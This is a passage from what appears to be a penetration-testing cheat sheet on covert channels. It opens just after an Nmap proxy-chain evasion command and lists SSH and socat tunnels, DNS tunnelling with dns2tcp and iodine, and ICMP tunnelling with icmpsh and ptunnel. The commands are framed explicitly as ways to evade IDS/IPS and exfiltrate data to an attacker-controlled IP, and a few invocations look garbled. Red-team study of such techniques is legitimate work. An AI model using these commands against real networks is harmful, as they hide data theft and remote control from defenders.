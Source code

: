 	```
This command sends the Nmap scan through the proxy chain, hiding the origin and allowing evasion of network monitoring systems like IDS/IPS.

# Covert Channels

#### Port Forwarding
- **SSH tunneling to bypass firewalls:**
	```bash
	ssh -L <local_port>:<remote_ip>:<remote_port> <user>@<host>
	```
- **`socat` Port forward for Bidirectional Communication:**
	```bash
	socat TCP4-LISTEN:<local_port>,fork TCP4:<remote_host>:<remote_port>
	```
- **`socat` Encrypted Tunnel:**
	```bash
	socat OPENSSL-LISTEN:<local_port>,cert=<cert.pem>,key=<key.pem>,verify=0 TCP:<target_ip>:<remote_port>
	```

#### DNS Tunneling
Encapsulating malicious traffic within DNS requests to bypass firewalls and evade detection. DNS is typically less scrutinized by IDS/IPS, making it an ideal channel for exfiltration.

- **Using `dns2tcp` Server (attacker):**
	```bash
	dns2tcpd -F /etc/dns2tcpd.conf
	```
- **Using `dns2tcp` Client (target):**
	```bash
	dns2tcpc -r <file> -z <attack_ip>
	```
- **Create a Covert DNS Tunnel Using `iodine`:**
	```bash
	sudo iodine -f <domain_name> <dns_server_ip>
	```
  
#### ICMP Tunneling
  Exfiltrate data over ICMP, which is often allowed through firewalls. ICMP traffic may be ignored by many network security devices, making it a useful channel for data exfiltration.

- **Using `icmpsh` Server (attacker):**
	```bash
	icmpsh -t <target_ip> -d <attack_ip>
	```
- **Using `icmpsh` Client (target):**
	```bash
	icmpsh-m -t <attack_ip> -c <command>
	```
  - **`ptunnel`ICMP Tunneling:**
	```bash
	ptunnel -p <gateway_ip> -da <target_ip> -dp <target_port>
	```  
- **`icmpssh` ICMP Tunnelling:**
	```bash
	icmpsh -t <target_ip> -d <local_ip>
	```
